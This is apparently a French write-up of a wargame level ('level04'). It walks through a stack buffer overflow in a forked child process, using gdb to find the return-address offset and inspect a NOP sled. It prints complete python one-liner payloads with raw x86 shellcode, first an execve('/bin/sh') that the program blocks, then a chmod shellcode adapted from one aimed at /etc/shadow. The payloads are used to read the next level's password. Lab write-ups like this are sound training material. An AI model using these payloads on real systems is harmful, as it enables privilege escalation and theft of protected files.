 Quand on RE le binaire, on remarque qu'il n'y a pas d'appel a /bin/sh, mais un gets est présent donc on va pouvoir y injecter notre shellcode. Une partie du programme se déroule dans un child process créé via fork. Avec une string normale on obtient un message "Child is exiting" mais quand on essaie de trouver l'offset avec un générateur de pattern le programme tourne en permanence dans le vide, probablement parce qu'il attend le retour de child qui a planté.

On peut suivre et voir le child process dans gdb avec la commande `set follow-fork-mode child`

Si on relance le programme avec un pattern
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
(gdb) r
Starting program: /home/users/level04/level04
[New process 2913]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2913]
0x41326641 in ?? ()
```

L'offset est à 156

Il reste juste à trouver sur quelle adresse faire pointer EIP. J'ai essayé d'injecter dans le buffer directement mais même problème que la dernière fois le dernier byte se "décale"... Par contre, si on met le payload après l'override d'EIP, ça marche. Pour ça, on regarde l'adresse quand on donne 156 A, l'override d'EIP, puis une nopsled :

```
0xffffd670:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd680:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd690:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd700:     0x41414141      0x41414141      0x41414141      0xffffd720
0xffffd710:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd720:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd730:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd740:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd750:     0x90909090      0x90909090      0x90909090      0x90909090
```

On peut faire pointer sur 0xffffd750+.  

`python -c "print 'A' * 156 + '\x60\xd7\xff\xff' + '\x90' * 500 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"`


```
python -c "print 'A' * 156 + '\x60\xd7\xff\xff' + '\x90' * 500 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'" | ./level04
Give me some shellcode, k
no exec() for you
```
Effectivement, on peut voir qu'il y a un appel ptrace qui exit si exec() est utilisé, donc il va falloir faire sans cette fonction. On peut juste utiliser la fonction chmod("path/to/file", 777) à la place. Ce shellcode http://shell-storm.org/shellcode/files/shellcode-590.html pointe sur `/etc/shadow`, il suffit de remplacer le path par `/home/users/level05`

Le shellcode ressemble à ça
```
'\x31\xc0\x50\xb0\x0f'
+ '\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74' // la partie avec la string a remplacer
+ '\x89\xe3\x31\xc9\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80'
```

On utilise le script python que j'ai créé pour avoir la version assembly de la string '/home/users/level05' et on balance le payload

`python -c "print 'A' * 156 + '\x60\xd7\xff\xff' + '\x90' * 500 + '\x31\xc0\x50\xb0\x0f' + '\x68\x65\x6c\x30\x35\x68\x2f\x6c\x65\x76\x68\x73\x65\x72\x73\x68\x6d\x65\x2f\x75\x68\x2f\x2f\x68\x6f' + '\x89\xe3\x31\xc9\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80'" | ./level04`

On possède désormais les droits d'accès au dossier level05, il suffit de cat le password